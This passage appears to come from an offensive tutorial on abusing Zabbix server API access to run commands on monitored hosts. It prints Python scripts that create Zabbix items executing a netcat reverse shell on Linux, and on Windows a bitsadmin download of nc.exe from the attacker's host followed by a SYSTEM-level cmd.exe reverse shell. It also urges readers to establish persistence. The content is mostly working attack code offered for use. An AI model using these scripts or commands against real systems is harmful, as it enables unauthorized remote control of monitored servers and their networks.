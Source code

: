 ```python
        item = zapi.item.create(
            hostid=host_id,
            name='netcat_create_reverse_shell',
            key_='system.run["nc 192.168.56.100 4444 -e /bin/bash"]',
            type=0,
            value_type=4,
            interfaceid=hosts[0]["interfaces"][0]["interfaceid"],
            delay=5
        )
    except ZabbixAPIException as e:
        print(e)
        sys.exit()
    print("Added item with itemid {0} to host: {1}".format(item["itemids"][0], host_name))
else:
    print("No hosts found")
```

How it's look:
<a href="url"><img src="https://image.prntscr.com/image/_XY5FGfGQHay0QfjdIA-zQ.png" align="justify"></a>

Connect to our shell:
<a href="url"><img src="https://image.prntscr.com/image/jj3K7VPaQiydQDiKuZnW9w.png" align="justify"></a>

Now you have to gain a foothold in the system and leave the persistent shell, are you already old enough to do it yourself?

## Windows time!
<a href="url"><img src="http://goldwallpapers.com/uploads/posts/pyro-wallpaper/pyro_wallpaper_012.jpg" align="justify" width="800"></a>

By default, in Windows the agent is installed and started as a service with System privileges. For example, we use the same netcat, which will be downloaded from our server.
```python
from pyzabbix import ZabbixAPI, ZabbixAPIException
import sys
api_address=raw_input("enter correct URL to api_jsonrpc.php, like http://192.168.56.102/zabbix/api_jsonrpc.php"": \n")
user= raw_input("enter username: \n")
password= raw_input("enter password: \n")
host_name=raw_input("enter hostname: \n")
# hostid=raw_input("enter hostid: \n")
zapi = ZabbixAPI(api_address) # user='Admin', password='zabbix')
# Login to the Zabbix API
zapi.login(user, password)
# host_name = 'Zabbix_server'
# host_name = "windows host"
hosts = zapi.host.get(filter={"host": host_name}, selectInterfaces=["interfaceid"])
if hosts:
    host_id = hosts[0]["hostid"]
    print("Found host id {0}".format(host_id))
    try:
        item = zapi.item.create(
            hostid=host_id,
            name='netcat_create_reverse_shell',
            key_='system.run["bitsadmin.exe /transfer /download http://192.168.56.100/nc.exe C:\\Temp\\nc.exe && C:\Temp\\nc.exe 192.168.56.100 5555 -e cmd.exe"]',
            type=0,
            value_type=4,
            interfaceid=hosts[0]["interfaces"][0]["interfaceid"],
            delay=30
        )
    except ZabbixAPIException as e:
        print(e)
```